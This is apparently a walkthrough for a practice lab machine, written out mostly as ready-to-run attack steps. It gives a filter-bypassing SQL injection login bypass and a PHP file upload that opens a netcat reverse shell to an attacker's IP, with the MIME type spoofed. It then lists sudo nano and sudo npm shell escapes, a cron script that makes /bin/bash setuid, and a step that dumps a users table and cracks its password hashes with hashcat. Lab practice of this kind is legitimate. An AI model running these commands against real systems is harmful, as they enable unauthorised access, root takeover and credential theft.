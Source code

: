 ## Initial Access Point 2

SQL Injection (since the or gets sanitized, we can do this "oorr"): 
```
username = admin' oorr '1' = '1' -- 
OR
password = admin' oorr '1' = '1' -- 

# remember to put a space after --
```

## Initial Access Point 3

Upload File Vulnerability (Reverse shell):
1. upload a php file with the following content:
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacking IP> <Attacking Port> >/tmp/f");
?>
```

2. Use burp suite/python to intercept the upload file request
```
Change the content type to image/png or image/jpeg
```

3. Run the command on your attacking machine:
```
nc -lvnp <Match the port in the php file>
```

4. Go the the following endpoint
```
<Victim IP>:5000/uploads/<filename.php>
```


## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
reset; sh 1>&0 2>&0
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```

